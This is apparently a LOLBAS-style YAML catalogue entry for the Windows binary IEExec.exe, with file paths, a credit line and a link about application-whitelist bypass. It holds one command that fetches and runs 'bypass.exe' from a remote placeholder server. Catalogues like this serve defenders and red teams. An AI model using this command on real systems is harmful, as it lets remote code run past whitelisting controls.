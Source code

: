 ```yaml
---
Name: IEExec.exe
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: ieexec.exe http://x.x.x.x:8080/bypass.exe
    Description: 'Executes bypass.exe from the remote server.'
Full Path:
  - c:\windows\system32\ieexec.exe
  - c:\windows\sysWOW64\ieexec.exe
Code Sample: []
Detection: []
Resources:
  - https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/
Notes: Thanks to Casey Smith - @subtee
---
```

